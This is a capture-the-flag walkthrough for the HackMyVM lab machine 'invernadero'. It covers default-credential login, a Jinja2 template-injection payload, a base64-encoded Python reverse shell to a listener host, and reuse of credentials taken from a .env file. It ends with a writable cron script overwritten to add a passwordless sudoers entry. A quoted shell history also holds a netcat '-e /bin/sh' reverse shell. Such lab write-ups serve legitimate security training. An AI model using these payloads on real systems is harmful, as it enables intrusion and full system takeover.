


# invernadero

## Executive Summary

| Machine | OS | Author | Category | Platform |
| :--- | :--- | :--- | :--- | :--- |
| invernadero | Linux | 1carus | easy | HackMyVM |

**Summary:** The invernadero machine hosts an Apache web server on port 80 and a Werkzeug Python application on port 8080 alongside an OpenSSH service on port 22. Initial analysis of the Werkzeug service reveals an IoT Dashboard login interface, which grants administrative access using the default credentials of admin and admin123. Within the dashboard, the alert configuration interface at the alerts endpoint dynamically evaluates user supplied expressions via a Jinja2 template engine, presenting a Server Side Template Injection vulnerability. Submitting a template payload that accesses Python builtins to invoke system commands yields arbitrary code execution, which is leveraged to establish a reverse shell as the operador user inside a Docker container. Local enumeration within the container reveals an environment file containing cleartext credentials for an administrative user. Reusing these credentials allows direct SSH access to the host operating system as admin_invernadero. Examination of the user shell history identifies an automated root task executing a backup shell script at /opt/invernadero/backup_logs.sh. Because this script is group writable by the current user, modifying its contents to append a passwordless sudo entry allows the user to execute sudo commands as root and retrieve both flags.

---

## Reconnaissance

The assessment commenced with network discovery to locate the target machine, followed by comprehensive port scanning and service fingerprinting.

1. An ARP ping sweep was performed across the local network segment to identify the target IP address:

```zsh
❯ sudo nmap -sn -PR 192.168.56.0/24                      
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-17 21:00 +0700
Nmap scan report for 192.168.56.100
Host is up (0.00014s latency).
MAC Address: 08:00:27:33:04:9B (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.200
Host is up (0.00055s latency).
MAC Address: 08:00:27:A6:1F:28 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.1
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 4.72 seconds
```

The scan detected the active target at IP address 192.168.56.200 with an Oracle VirtualBox virtual network adapter.

2. A full TCP port scan was executed against the identified target to discover all listening services:

```zsh
❯ ip=192.168.56.200

❯ nmap -p- $ip                    
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-17 21:01 +0700
Nmap scan report for 192.168.56.200
Host is up (0.00026s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 2.44 seconds
```

The port scan revealed three open TCP ports: port 22 running SSH, port 80 running HTTP, and port 8080 running an HTTP proxy service.

3. Service version detection and default Nmap scripts were executed against the three open ports:

```zsh
❯ nmap -p 22,80,8080 -sCV -Pn -T4 --min-rate 5000 $ip
Starting Nmap 7.991 ( https://nmap.org ) at 2026-09-17 21:01 +0700
Nmap scan report for 192.168.56.200
Host is up (0.0014s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.68 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: It works! Apache httpd
|_http-server-header: Apache/2.4.68 (Unix)
8080/tcp open  http    Werkzeug httpd 3.1.8 (Python 3.9.25)
|_http-server-header: Werkzeug/3.1.8 Python/3.9.25
|_http-title: Did not follow redirect to /login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.36 seconds
```

The service scan revealed OpenSSH 10.3 on port 22, an Apache httpd 2.4.68 instance on port 80 returning the default test page, and a Python 3.9.25 application served by Werkzeug httpd 3.1.8 on port 8080 that redirects incoming connections to a login route.

4. HTTP requests were issued to both web services to examine server responses and headers:

```zsh
❯ curl -i http://$ip/                                       
HTTP/1.1 200 OK
Date: Thu, 17 Sep 2026 14:02:19 GMT
Server: Apache/2.4.68 (Unix)
Last-Modified: Mon, 06 Jul 2026 16:52:12 GMT
ETag: "bf-655f41884c700"
Accept-Ranges: bytes
Content-Length: 191
Content-Type: text/html

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<title>It works! Apache httpd</title>
</head>
<body>
<p>It works!</p>
</body>
</html>
```

Querying port 80 confirmed the default Apache installation page. An initial request to port 8080 confirmed the redirect:

```zsh
❯ curl -i http://$ip:8080/
HTTP/1.1 302 FOUND
Server: Werkzeug/3.1.8 Python/3.9.25
Date: Thu, 17 Sep 2026 14:02:48 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 199
Location: /login
Vary: Cookie
Connection: close

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
```

Following the redirect revealed the full HTML markup for an IoT Dashboard login portal titled Invernadero IoT:

```zsh
❯ curl -i http://$ip:8080/ -L
HTTP/1.1 302 FOUND
Server: Werkzeug/3.1.8 Python/3.9.25
Date: Thu, 17 Sep 2026 14:02:51 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 199
Location: /login
Vary: Cookie
Connection: close

HTTP/1.1 200 OK
Server: Werkzeug/3.1.8 Python/3.9.25
Date: Thu, 17 Sep 2026 14:02:51 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2402
Vary: Cookie
Connection: close

<!DOCTYPE html>
<html>

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">

    <title>IoT Dashboard</title>

    <link rel="stylesheet" href="/static/base.css">
 

    <link rel="stylesheet"
        href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css">
</head>
<body>

<aside>

      <aside class="sidebar">

        <div class="sidebar-header">
            <h2>IoT Dashboard</h2>
            <span>ESP32</span>
            <span class="badge">ONLINE</span>
        </div>

        <nav class="sidebar-nav">
            <ul>
                <li><a href="/"><i class="fas fa-home"></i> Dashboard</a></li>
                <li><a href="/sens"><i class="fas fa-microchip"></i> Estadisticas</a></li>
                <li><a href="/alerts"><i class="fas fa-network-wired"></i> alertas</a></li>


            </ul>
        </nav>

    </aside>

</aside>

<main>
    <script>
    document.addEventListener('DOMContentLoaded', function () {
    const avatar = document.getElementById('userMenuToggle');
    const dropdown = document.getElementById('userDropdown');

    if (avatar && dropdown) {
        avatar.addEventListener('click', function (e) {
            e.stopPropagation();
            dropdown.classList.toggle('show');
        });

        document.addEventListener('click', function (e) {
            if (!dropdown.contains(e.target) && !avatar.contains(e.target)) {
                dropdown.classList.remove('show');
            }
        });
    }
});
    </script>


<link rel="stylesheet" href="/static/login.css">
<div class="login-container">

    <div class="login-card">

        <h1>Invernadero IoT</h1>

        <p>Inicia sesión para acceder al sistema</p>

        
            
        

        <form method="POST">

            <label>Usuario</label>

            <input
                type="text"
                name="username"
                placeholder="Ingrese su usuario"
                required
            >

            <label>Contraseña</label>

            <input
                type="password"
                name="password"
                placeholder="Ingrese su contraseña"
                required
            >

            <button type="submit">
                Iniciar sesión
            </button>

        </form>

    </div>

</div>


</main>

</body>

</html>
```

The HTML source code indicated navigation links to several endpoints including the root dashboard, sensor statistics at `/sens`, and an alert configuration page at `/alerts`.

---

## Initial Access

### Default Credentials and Server Side Template Injection

5. Authentication was attempted on the `/login` portal using standard default credentials. Submitting the username admin with the password admin123 granted administrative access to the IoT management interface. Navigating to the `/alerts` configuration page revealed a message format customization feature designed to incorporate sensor parameters. Testing this field with the arithmetic expression `{{7*7}}` caused the backend template engine to evaluate the operation and render the product 49 in the preview notification banner:



6. The evaluation of template tags confirmed Server Side Template Injection within the Jinja2 engine. To verify remote code execution capabilities, a payload leveraging Python method resolution order and global builtins was injected into the message format field to execute the system `id` command:



The application executed the command on the underlying operating system and reflected the result showing the effective user ID of operador:

```text
uid=100(operador) gid=65533(nogroup) groups=65533(nogroup),65533(nogroup)
```

7. A Python reverse shell payload was constructed and encoded into base64 to ensure reliable delivery without character escaping issues:

```zsh
❯ echo -n 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' | base64 -w0
aW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC41Ni4xIiw1NTU1KSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL3NoIik=
```

The encoded payload was wrapped inside the Jinja2 template injection vector:

```zsh
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('python3 -c "$(echo "aW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTkyLjE2OC41Ni4xIiw1NTU1KSk7b3MuZHVwMihzLmZpbGVubygpLDApO29zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7cHR5LnNwYXduKCIvYmluL3NoIik=" | base64 -d)"').read() }}
```

A netcat listener was started on port 5555 to catch the inbound connection, and the interactive shell was stabilized using Python pty spawning and terminal configuration:

```zsh
❯ nc -lvnp 5555
Listening on 0.0.0.0 5555
Connection received on 192.168.56.200 48272
~ $ id      
id
uid=100(operador) gid=65533(nogroup) groups=65533(nogroup),65533(nogroup)
~ $ ^[[26;5Rwhich /bin/bahs
which /bin/bahs
~ $ which /bin/bash
which /bin/bash
~ $ ^[[26;5Rwhich sh
which sh
/bin/sh
~ $ python3 -c 'import pty;pty.spawn("/bin/sh")'
python3 -c 'import pty;pty.spawn("/bin/sh")'
~ $ ^[[26;5R^Z
[1]  + 27310 suspended  nc -lvnp 5555

❯ stty raw -echo;fg                                                                        
[1]  + 27310 continued  nc -lvnp 5555

~ $ export TERM=xterm
```

8. System enumeration was conducted from the initial interactive shell session:

```zsh
~ $ hostname
b8dde17535e7
```

Listing the application working directory revealed various configuration files, python source scripts, and a descriptive text note:

```zsh
~ $ ls -la
total 108
drwxr-xr-x    1 operador root          4096 Sep 17 14:40 .
drwxr-xr-x    1 root     root          4096 Aug 30 13:43 ..
-rw-------    1 operador nogroup        136 Sep 17 14:43 .ash_history
-rwxr-xr-x    1 operador root            31 Aug 30 02:00 .dockerignore
-rwxr-xr-x    1 operador root           183 Aug 30 13:36 .env
-rwxr-xr-x    1 operador root           785 Aug 30 02:00 Dockerfile
-rwxr-xr-x    1 operador root           166 Aug 30 01:56 README.txt
drwxr-xr-x    2 operador nogroup       4096 Aug 30 13:43 __pycache__
drwxr-xr-x    1 operador root          4096 Aug 30 04:43 api
-rwxr-xr-x    1 operador root          4009 Aug 30 04:02 app.py
-rwxr-xr-x    1 operador root           563 Aug 28 03:06 config.py
-rwxr-xr-x    1 operador root            58 Aug 28 03:06 extensions.py
-rwxr-xr-x    1 operador root          9012 Aug 28 03:06 init.py
drwxrwxrwx    1 operador root          4096 Sep 17 14:40 instance
drwxr-xr-x    1 operador root          4096 Aug 30 04:43 invernadero
-rwxr-xr-x    1 operador root          1550 Aug 28 03:06 models.py
-rwxr-xr-x    1 operador root            84 Aug 30 04:15 requirements.txt
-rwxr-xr-x    1 operador root         11251 Aug 30 04:09 routes.py
drwxr-xr-x    1 operador root          4096 Aug 30 04:43 static
drwxr-xr-x    1 operador root          4096 Aug 30 04:43 templates
-rwxr-xr-x    1 operador root            26 Aug 30 13:41 user.txt
```

Checking the assigned IP address verified that the shell was contained within a Docker network:

```zsh
~ $ hostname -i
172.17.0.2
```

Inspecting the `.env` file disclosed configuration details and authentication credentials for the MQTT broker service running on the container host gateway:

```zsh
~ $ cat .env
SECRET_KEY=tu_nueva_clave_secreta_super_segura
TELEGRAM_TOKEN=
TELEGRAM_CHAT_ID=
ESP32_API_KEY=

MQTT_BROKER=172.17.0.1
MQTT_USER=admin_invernadero
MQTT_PASSWORD=admin_invernadero123
```

Reading `README.txt` provided additional context regarding container isolation and breakout objectives:

```zsh
~ $ cat README.txt 
felcidades lograste ejecucion por medio de una stti, el paso a seguir es salir
del docker o leer archivos desde el docker, ademas de python que mas
corre en docker? 
```

---

## Lateral Movement

### SSH Credential Reuse from Container Environment

9. The credentials extracted from the `.env` file for the user admin_invernadero with password admin_invernadero123 were tested against the host OpenSSH service exposed on port 22:

```zsh
~/projects/labs/hmv                                                                              21:39:42
❯ ssh admin_invernadero@$ip        
The authenticity of host '192.168.56.200 (192.168.56.200)' can't be established.
ED25519 key fingerprint is: SHA256:9gIjG8U5peayHQdhoRjcth25hS080CcdkBppK/dMroc
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.200' (ED25519) to the list of known hosts.
admin_invernadero@192.168.56.200's password: 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

server1:~% id;whoami;hostname                                                                            
uid=1002(admin_invernadero) gid=1002(admin_invernadero) groups=1002(admin_invernadero)
admin_invernadero
server1
```

Authentication succeeded, establishing a session on the Alpine Linux host named server1. User accounts and home directory contents were inspected:

```zsh
server1:~% cat /etc/passwd | grep "sh$"                                                                  
root:x:0:0:root:/root:/bin/zsh
admin_invernadero:x:1002:1002::/home/admin_invernadero:/bin/zsh
server1:~% ls -la                                                                                        
total 20
drwxr-sr-x    2 admin_invernadero admin_invernadero      4096 Aug 29 23:12 .
drwxr-xr-x    3 root     root          4096 Aug 29 23:28 ..
-rw-------    1 admin_invernadero admin_invernadero      1082 Aug 29 23:12 .ash_history
-rw-------    1 admin_invernadero admin_invernadero      1399 Aug 29 23:12 .bash_history
-rw-r--r--    1 admin_invernadero admin_invernadero        35 Aug 29 22:25 user.txt
```

---

## Privilege Escalation

### Cron Job Script Modification and Sudoers Injection

10. The user shell history file `.ash_history` was reviewed to discover previous administrative actions and scheduled tasks:

```zsh
server1:~% cat .ash_history                                                                              
whoami
id
bash -p
cd /root
/usr/local/bin/find . -exec cat /root/root.txt \; -quit
uid
id
/usr/local/bin/find . -exec chmod 777 /root/root.txt \; -quit
find / -writable -type f 2>/dev/null | grep -v /proc
ps -aux
ps aux
echo '#!/bin/sh
nc 192.168.1.19 4443 -e /bin/sh
' > /opt/invernadero/backup_logs.sh
echo '#!/bin/sh
cat /root/flag.txt > /tmp/flag_leaked.txt
chmod 644 /tmp/flag_leaked.txt
' > /opt/invernadero/backup_logs.sh
cat /tmp/flag_leaked.txt
cd /tmp
ls
cat flag_leaked.txt 
echo '#!/bin/sh
cat /root/flag.txt > /tmp/flag_leaked.txt
chmod 644 /tmp/flag_leaked.txt
cat /root/* > /tmp/flag_leaked.txt
chmod 644 /tmp/flag_leaked.txt
;
ls
cat flag_leaked.txt 
cat shell 
[?6c[38;166R[38;155Rq
whoami
ls
echo '#!/bin/sh
mkdir -p /tmp/root_backup
cp -r /root/* /tmp/root_backup/
chmod -R 644 /tmp/root_backup
' > /opt/invernadero/backup_logs.sh
ls
sl
slls
ls
cd root_backup/
cat root_backup/*
echo '#!/bin/sh
find /root -type f -exec cat {} \; > /tmp/root_all.txt
chmod 644 /tmp/root_all.txt
' > /opt/invernadero/backup_logs.sh
ls
l
sl
ls
cat root_
cat root_all.txt 
exit
exit
```

The history log indicated frequent overwriting of `/opt/invernadero/backup_logs.sh`, suggesting the script was executed on a recurring schedule by root. Permissions on the target script were inspected:

```zsh
server1:~% ls -la /opt/invernadero/backup_logs.sh  
-rwxrwxr-x    1 root     admin_invernadero       347 Aug 29 23:51 /opt/invernadero/backup_logs.sh  
```

The script file was owned by root but assigned to the admin_invernadero group with read, write, and execute permissions.

11. The script was replaced with commands designed to create a custom sudoers configuration entry granting admin_invernadero full root privileges without password authentication:

```zsh
server1:~% echo '#!/bin/sh
echo "admin_invernadero ALL=(ALL:ALL) NOPASSWD:ALL" > /etc/sudoers.d/admin_invernadero
chmod 440 /etc/sudoers.d/admin_invernadero
' > /opt/invernadero/backup_logs.sh
```

12. Once the scheduled execution completed, the available sudo privileges were verified:

```zsh
server1:~% sudo -l                                                                                       
Matching Defaults entries for admin_invernadero on server1:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for admin_invernadero:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User admin_invernadero may run the following commands on server1:
    (ALL : ALL) NOPASSWD: ALL
server1:~% sudo -i                                                                                       

   ██████╗████████╗ ██████╗ ███████╗
  ██╔════╝╚══██╔══╝██╔═══██╗██╔════╝
  ██║        ██║   ██║   ██║███████╗
  ██║        ██║   ██║   ██║╚════██║
  ╚██████╗   ██║   ╚██████╔╝███████║
   ╚═════╝   ╚═╝    ╚═════╝ ╚══════╝

  Cybersecurity Training & Operations System
  Authorized access only!

┌──(root@server1)-[~]
└─# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
root
server1
┌──(root@server1)-[~]
└─# cat /home/admin_invernadero/user.txt /root/root.txt 
flag{esc...}
flag{roo...}
```

Root access was achieved, and both the user and root flags were read directly from the filesystem.

---

## Attack Chain Summary

1. **Reconnaissance**: Host discovery and service enumeration detected OpenSSH on port 22, an Apache web server on port 80, and a Werkzeug Python web application hosting an IoT Dashboard on port 8080.
2. **Vulnerability Discovery**: The web dashboard was accessed via default credentials of admin and admin123, revealing an alert configuration endpoint vulnerable to Server Side Template Injection.
3. **Exploitation**: Injecting a Jinja2 template payload targeting Python system execution primitives triggered a base64 encoded reverse shell, delivering initial access as the operador user inside a Docker container.
4. **Internal Enumeration**: Enumeration of the container filesystem uncovered hardcoded MQTT credentials in the dot env configuration file, enabling an SSH session to the host system as the admin_invernadero user.
5. **Privilege Escalation**: Shell history analysis revealed an automated root backup routine executing a group writable script at /opt/invernadero/backup_logs.sh, which was rewritten to inject a passwordless sudoers entry and grant an interactive root shell.
